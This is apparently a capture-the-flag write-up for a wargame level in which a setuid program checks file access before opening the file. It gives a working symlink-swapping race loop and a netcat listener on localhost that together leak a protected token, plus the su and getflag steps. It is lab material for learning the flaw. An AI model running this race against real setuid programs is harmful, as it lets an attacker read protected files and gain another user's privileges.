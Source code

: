 # Level 10

## Initial Context

- Two file: `level10` and `token`

## Solving the Challenge

### Analyzing

```bash
$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

`level10` seems to send a file to a socket only if you have the permission:

```bash
$ ./level10
./level10 file host
        sends file to host if you have access to it

$ ./level10 token 127.0.0.1
You don t have access to token

$ ./level10 /etc/passwd 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1

# starting a netcat in the background
$ nc -lkvn 0.0.0.0 6969 &
[1] 27240

$ ./level10 /etc/passwd 127.0.0.1
Connecting to 127.0.0.1:6969 .. Connection from 127.0.0.1 port 6969 [tcp/*] accepted
.*( )*.
Connected!
Sending file ..
...
wrote file!
```

But how to read the `token` file? The program seems to before check for the file permission, then try to open it.

```bash
$ ltrace ./level10 token 127.0.0.1
access("token", 4) = -1
printf("You don't have access to %s\n", "token") = 31
```

```bash
$ ltrace ./level10 /etc/passwd 127.0.0.1
access("/etc/passwd", 4) = 0
...
open("/etc/passwd", 0, 010) = 4
...
```

That means that if we manage to 'change' the file that is trying to be open just after the `access` check but just before the `open` call, it should works.

### Exploiting

By quickly changing the file, we should manage to randomly get the timing right. The `access` would check the dummy file, and the `open` would open the `token` file.

```bash
# create a dummy file
$ echo 'dummy' > /tmp/dummy

$ while true; do
  # link `/tmp/level10` to the dummy file
  ln -s /tmp/dummy /tmp/level10;
  # remove the link
  rm /tmp/level10;
  # link `/tmp/level10` to the token file
  ln -s ~/token /tmp/level10;
  # remove the link
  rm /tmp/level10;
done
```

In another terminal, start a netcat with filters to remove useless content:

```bash
nc -lkvn 0.0.0.0 6969 2>&1 | grep -v 'Connection from' | grep -v 'dummy' | grep -v '( )'
```

In again another terminal, start the `level10` executable in a loop:

```bash
while true; do
  ./level10 /tmp/level10 127.0.0.1;
done
```

After waiting a bit, the flag will appear on the netcat's terminal.

Now we can log into `flag10` and do `getflag`.

```
$ su flag10
$ getflag
Check flag.Here is your token : ....
```
